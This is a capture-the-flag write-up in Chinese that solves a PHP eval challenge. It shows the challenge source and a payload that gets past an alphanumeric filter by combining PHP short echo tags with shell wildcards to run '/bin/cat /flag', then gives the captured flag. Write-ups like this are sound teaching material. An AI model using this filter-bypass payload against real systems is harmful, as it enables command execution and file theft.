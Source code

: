 
## Web8 bypass

- Linux 通配符

- PHP 短标签输出


```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

PHP 默认配置中 `short_open_tag` = ON，`<?=?>` 相当于 `<?php echo ...;?>`.

![](/assets/images/move/20191102000631.png)

- Payload

```php
?code=?><?=`/???/???%20/????`;?>
```

相当于

```php
code=?><?=` /bin/cat /flag`;?>
```

获取到 `flag{aa5237a5fc25af3fa07f1d724f7548d7}`.

## Web9 SleepCMS
